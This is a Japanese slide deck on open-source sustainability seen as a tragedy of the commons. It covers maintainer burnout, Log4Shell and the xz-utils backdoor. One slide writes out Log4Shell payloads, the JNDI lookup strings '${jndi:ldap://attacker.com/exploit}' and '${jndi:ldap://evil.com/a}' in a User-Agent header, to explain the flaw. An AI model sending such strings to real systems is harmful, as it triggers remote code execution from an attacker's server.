






<!-- _class: lead -->
# デジタルコモンズの悲劇：誰がインターネットの地下室を守るのか

- OSS持続可能性の危機 × ガレット・ハーディンの理論
- 
- log4shell / xz-utils backdoor / Heartbleed
- 
- 「全てのインフラがネブラスカ州の誰かのプロジェクトに依存している」


---

# 目次

- 1. コモンズの悲劇とは何か
- 2. デジタルコモンズへの拡張
- 3. インターネットの隠れた依存構造
- 4. Log4Shell事件の教訓
- 5. xz-utils バックドア攻撃
- 6. OSSメンテナの非対称性と持続可能性
- 7. 解決策と未来


---

<!-- _class: lead -->
# 第1部：コモンズの悲劇

- Garrett Hardinの理論とデジタル世界への適用


---

# ガレット・ハーディンの「コモンズの悲劇」(1968)

- **Science誌に発表された古典的論文**
- 
- - 共有の牧草地を複数の牧夫が利用する状況
- - 各個人にとっては牛を1頭追加することが合理的
- - しかし全員が同じ行動を取ると牧草地は荒廃する
- - **個人の合理性 ≠ 集団の合理性**
- 
- 「自由なコモンズにおける自由は、全てを破滅に導く」— Hardin, 1968


---

# コモンズの悲劇：構造図




---

# デジタルコモンズへの拡張

- **伝統的コモンズとの類似点**
- 
| 牧草地 | OSS |
|--------|-----|
| 牧夫 | 企業・開発者 |
| 牛の追加 | 依存パッケージの追加 |
| 牧草地の荒廃 | メンテナの燃え尽き |
| 管理者不在 | ガバナンスの欠如 |
- 
- **決定的な違い:** デジタル資源は「消費」されないが、メンテナンスコストは消費される


---

<!-- _class: lead -->
# 第2部：インターネットの地下室

- 誰も見ていない場所で、何が起きているのか


---

# インターネットの隠れた依存構造




---

# 数字で見る現実

- **OSSへの依存度**
- 
- - 現代のソフトウェアの **70-90%** がOSSコンポーネント
- - npmレジストリ: **200万+** パッケージ
- - Fortune 500企業の **99%** がOSSを使用
- - 重要インフラの多くは **1-3人** のメンテナに依存
- 
- **対する投資**
- - 大企業のOSSへの年間投資: 収益の **0.01%未満**
- - メンテナの **60%** が燃え尽き症候群を経験


---

<!-- _class: lead -->
# 第3部：Log4Shell事件

- 史上最悪のソフトウェア脆弱性はなぜ生まれたか


---

# Log4Shell タイムライン




---

# Log4Shell: 技術的詳細

- **CVE-2021-44228 — CVSS 10.0 (最高深刻度)**
- 
- - Log4j 2.x の JNDI Lookup 機能を悪用
- - 攻撃文字列: `${jndi:ldap://attacker.com/exploit}`
- - ログに記録される任意の文字列からRCE (Remote Code Execution)
- - 影響範囲: Java使用の全アプリケーション

```java
// 攻撃例: HTTPヘッダーに挿入するだけ
GET / HTTP/1.1
Host: vulnerable-app.com
User-Agent: ${jndi:ldap://evil.com/a}

// → Log4jがJNDI lookupを実行
// → 攻撃者のサーバーから任意コード実行
```


---

# Log4jの「メンテナ」問題

- **世界のインフラを支えていた体制:**
- 
- - フルタイムのメンテナ: **0人** (全員ボランティア)
- - アクティブな貢献者: **3人**
- - Apache Software Foundation のプロジェクト
- - 年間の寄付額: ごくわずか
- 
- **対照的に:**
- - Log4jに依存するサービスの年間売上: **数千億ドル**
- - パッチ対応に追われたメンテナはクリスマス休暇を返上


---

<!-- _class: lead -->
# 第4部：xz-utils バックドア

- ソーシャルエンジニアリングが暴いたOSSの構造的弱点


---

# xz-utils バックドア攻撃の全貌




---

# xz攻撃が示したもの

- **技術的脆弱性ではなく、人間の脆弱性**
- 
- - 疲弊したメンテナの善意を悪用
- - 2年間の「信頼構築」投資 — 国家レベルの忍耐力
- - ソックパペットによる心理的圧力
- - ビルドシステムのテストファイルにバックドアを隠蔽
- 
- **偶然の発見がなければ:**
- - 全Linuxサーバーへのバックドアが成立
- - SSH経由でのリモートコード実行が可能に


---

<!-- _class: lead -->
# 第5部：非対称性の構造

- 利用者と維持者の間にある深い溝


---

# OSSメンテナと企業の非対称性




---

# メンテナの声

- **実際のOSSメンテナの経験**
- 
- > 「企業から深夜にIssueが来て、『セキュリティ脆弱性を今すぐ直せ』と要求される。私はこれを無給で、本業の傍らでやっている」
- 
- > 「GitHub Sponsorsで月$200もらっている。このライブラリを使う企業の時価総額は合計で数兆ドルだ」
- 
- > 「xzの件で学んだのは、疲れ切ったメンテナは最大のセキュリティホールだということ」
- 
- — 匿名のOSSメンテナたちの証言


---

<!-- _class: lead -->
# 第6部：解決策と未来

- コモンズの悲劇を超えて


---

# 持続可能性モデルの比較




---

# まとめ：デジタルコモンズを守るために

- **ハーディンの予言は正しかった — しかし解決策もある**
- 
- 1. **認識の転換**: OSSは「無料」ではなく「公共財」である
- 2. **企業の責任**: 利用に見合った貢献の制度化
- 3. **政府の役割**: デジタルインフラへの公共投資
- 4. **コミュニティ**: メンテナの精神的健康と持続可能な参加
- 5. **セキュリティ**: サプライチェーン全体の可視化と監査
- 
- 「次のlog4shellやxzバックドアは、技術ではなく制度で防ぐ」

